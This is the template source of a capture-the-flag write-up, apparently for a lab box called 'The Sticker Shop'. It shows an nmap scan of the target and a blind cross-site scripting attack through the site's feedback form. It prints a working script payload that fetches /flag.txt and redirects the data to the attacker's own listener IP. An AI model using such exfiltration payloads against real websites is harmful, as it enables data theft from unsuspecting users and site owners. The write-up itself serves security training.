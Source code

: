 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We run a basic port scan.")}}

{{console("nmap -T5 -p- -sC -sV 10.10.168.196", "Nmap scan report for 10.10.168.196
Host is up (0.068s latency).
Not shown: 59605 closed tcp ports (conn-refused), 5928 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
...")}}

{{text("We find 2 open ports: ")}}

{{list(['8080 (HTTP)', '22 (SSH)'])}}

{{header("Getting the flag", "flag")}}

{{text("Upon visiting the website we are met with a shop for cat stickers. It consists of a home and send feedback tabs.")}}

{{image("../../static/writeups/thestickershop/images/000001.jpg")}}

{{text("Website is very basic and I couldn't find anything interesting besides the form for submitting your feedback.")}}

{{image("../../static/writeups/thestickershop/images/000002.jpg")}}

{{text("Let's follow the challange description and try to access <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/flag.txt</code>.")}}

{{image("../../static/writeups/thestickershop/images/000003.jpg")}}

{{text("This resource exists but we don't have neccessary permissions to view it.")}}

{{text("Since the challange talks about client-side exploitation I immediately thought about <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cross-site scripting</code> (XSS).")}}

{{text("I tried using a couple of payloads on the form but couldn't get them to work.")}}

{{text("Then I set up a python web server on port 80 and tried to make a connection to myself.")}}

{{text("We send an <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>img</code> element with our IP as the source.")}}

{{image("../../static/writeups/thestickershop/images/000004.jpg")}}

{{text("We should receive a GET request.")}}

{{image("../../static/writeups/thestickershop/images/000005.jpg")}}

{{text("It works. Now we do the same thing but this time we need to also read the flag.")}}

{{text("I created a script tag that will fetch the flag and send it to us.")}}

{{console("<script>
    fetch('/flag.txt')
        .then(response => response.text())
        .then(data => {
            window.location.href = 'http://10.9.1.230/?flag=' + encodeURIComponent(data);
        });
</script>", "")}}

{{text("We should receive the flag.")}}

{{image("../../static/writeups/thestickershop/images/000006.jpg")}}

{{script()}}
